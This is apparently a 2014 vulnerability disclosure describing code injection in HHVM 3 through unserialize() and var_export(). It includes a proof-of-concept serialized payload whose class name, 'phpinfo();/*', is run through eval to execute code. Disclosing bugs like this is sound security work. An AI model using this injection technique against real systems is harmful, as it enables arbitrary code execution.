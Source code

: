 ### Code Injection Vulnerability via unserialize() Function and var_export() Function in HHVM 3
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.10.29

HHVM's var_export() function wrongly handles an undefined class, and unserialize() function wrongly handles an invalid classname.

HHVM's var_export() function
-------------------
HHVM's var_export() function had a parse error when exporting an undefined class:**

``` php
<?php

$str = 'O:7:"phpinfo":0:{}';
$obj = unserialize($str);
var_dump($obj);
var_export($obj);
```
The outputs in PHP >= 5.1:

```php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(7) "phpinfo"
}
__PHP_Incomplete_Class::__set_state(array(
   '__PHP_Incomplete_Class_Name' => 'phpinfo',
))
```
The outputs in HHVM 3:

``` php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(7) "phpinfo"
}
phpinfo::__set_state(array(
))
```

HHVM's unserialize() funciton
-------------------
HHVM's unserialize() funciton had a classname parse error when unserializing object:**

``` php
<?php

$str = 'O:12:"phpinfo();/*":0:{}';
$obj = unserialize($str);
var_dump($obj);
```
The outputs in PHP >= 5.1:

``` php
Notice: unserialize(): Error at offset 13 of 24 bytes in ...
bool(false)
```
The outputs in HHVM 3:

``` php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(12) "phpinfo();/*"
}
```

Code Injection Vulnerability
-------------------
Exploit these bug, it is possible to inject arbitrary code. The codes below shows a dangerous way to use unserialize() function and var_export() function :)**

``` php
<?php

$str = 'O:12:"phpinfo();/*":0:{}';
$obj = unserialize($str);
// var_export($obj);
eval('$str = ' . var_export($obj, true) . ';');
```
The outputs in HHVM 3:

``` php
// phpinfo();/*::__set_state(array(
// ))
// ok! phpinfo() function executed:)
HipHop
```
